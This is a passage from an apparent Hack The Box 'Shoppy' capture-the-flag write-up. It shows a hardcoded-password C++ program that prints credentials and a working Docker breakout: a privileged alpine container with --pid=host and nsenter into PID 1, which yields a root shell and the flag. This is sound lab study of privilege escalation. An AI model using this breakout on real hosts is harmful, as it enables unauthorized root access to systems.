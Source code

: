 I can now ssh into the deploy account, and confirm the password manager logic above based on the c++ source:

```cpp
#include <iostream>
#include <string>

int main() {
    std::cout << "Welcome to Josh password manager!" << std::endl;
    std::cout << "Please enter your master password: ";
    std::string password;
    std::cin >> password;
    std::string master_password = "";
    master_password += "S";
    master_password += "a";
    master_password += "m";
    master_password += "p";
    master_password += "l";
    master_password += "e";
    if (password.compare(master_password) == 0) {
        std::cout << "Access granted! Here is creds !" << std::endl;
        system("cat /home/deploy/creds.txt");
        return 0;
    } else {
        std::cout << "Access denied! This incident will be reported !" << std::endl;
        return 1;
    }
}
```

I tried clobbering cat in $PATH to privesc, when logged in as jaeger and entering the password -- but remembered sudoers is set so you cannot preserve the environment, and /home/deploy/password-manager only runs as the deploy user anyway.

I then remembered in matter most chat, there was mention of the deploy account being used and it would be deploying via docker.. So, let's see if we can access docker, if there are any images (HTB boxes do not have internet access, so cannot pull down container images from dockerhub), and if we can run a privileged container to try get root on the host.

Docker based privilege escalation is new to me, and not something I have experience with -- but I was able to consult the always excellent HackTricks - [Docker Breakout / Privilege Escalation - HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation)

Luckily, we have access to an alpine image we can use to spin up a privileged container.  Inside the container we run nsenter:

```bash
$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
alpine       latest    d7d3d98c851f   5 months ago   5.53MB
$ docker run -it --rm --pid=host --privileged alpine /bin/sh
/ #
/ # nsenter --target 1 --mount --uts --ipc --net --pid -- bash
root@shoppy:/#
root@shoppy:/# cat /root/root.txt
0961d847a56840c545b2f26d78796dc0

```
